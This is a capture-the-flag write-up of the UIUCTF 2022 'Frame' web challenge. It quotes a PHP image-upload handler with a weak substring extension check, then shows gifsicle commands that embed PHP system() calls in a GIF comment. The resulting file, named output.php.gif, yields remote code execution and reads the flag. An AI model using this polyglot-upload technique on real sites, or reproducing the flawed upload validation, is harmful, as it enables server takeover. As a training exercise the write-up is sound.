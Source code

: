 # UIUCTF 2022

## Frame

#### [source](https://github.com/GiongfNef/ChallFile/blob/main/UIUCTF2022/frame/handout.tar)

![chall](<.gitbook/assets/image (6).png>)

analysis:

```
<?php
ini_set('display_errors', 1);
ini_set('display_startup_errors', 1);
error_reporting(E_ALL);
          if (isset($_POST["submit"])) {
            $allowed_extensions = array(".jpg", ".jpeg", ".png", ".gif");
            $filename = $_FILES["fileToUpload"]["name"];
            $tmpname = $_FILES["fileToUpload"]["tmp_name"];
            $target_file = "uploads/" . bin2hex(random_bytes(8)) . "-" .basename($filename);

            $has_extension = false;
            foreach ($allowed_extensions as $extension) {
              if (strpos(strtolower($filename), $extension) !== false) {
                $has_extension = true;
              }
            }
            
            if ($_FILES["fileToUpload"]["size"] < 2000000) {
              if (getimagesize($tmpname) && $has_extension) {
                if (move_uploaded_file($tmpname, $target_file)) {     
                  echo "<div id='frame'><img src='$target_file' alt='Your image failed to load :(' id='submission'></div>";
                } else {
                  echo "There was an error uploading your file. Please contact an admin.";
                }
              } else {
                echo "Your picture is not a picture and could not be framed.";
              }
            } else {
              echo "Your picture is too large for us to process.";
            }
          }
        ?>
```

* know that: $allowed\_extensions = array(".jpg", ".jpeg", ".png", ".gif"); -> we can use ".gif" extension file. Finding around and i got [<mark style="color:blue;">`this doc`</mark>](https://doddsecurity.com/94/remote-code-execution-in-the-avatars/)<mark style="color:blue;">``</mark>
* We can use `gifsicle`  to embedd PHP code that runs the Linux command into a malicious image named output.php.gif.

Exploit:

* Firstly, we convert png file that we received from chall to gif file
* I have tried change file extension from png to gif but it doesn't work, of course.

![](<.gitbook/assets/image (3).png>)

* I convert by [online tool](https://cloudconvert.com/png-to-gif) and ... that works. After we that just use this command:

```
gifsicle < frame-1.gif --comment "<?php system('id'); ?>" > output.php.gif
```

* Upload the output gif to server:

![the path of our requesting](<.gitbook/assets/image (9).png>)

Go to that path and get some interesting things:

![](.gitbook/assets/image.png)

* It works, try other commands to rce :

```
gifsicle < frame-1.gif --comment "<?php system('ls /'); ?>" > output.php.gif
```

![Here yah gooooo](<.gitbook/assets/image (4).png>)

* Now just use rce command and got the flag:

```
gifsicle < frame-1.gif --comment "<?php system('cd / && cat flag'); ?>" > output.php.gif
```

![](<.gitbook/assets/image (2).png>)

flag in some confusing thing like this:

![](<.gitbook/assets/image (1).png>)

Thanks for reading. Have a good day :heart: !

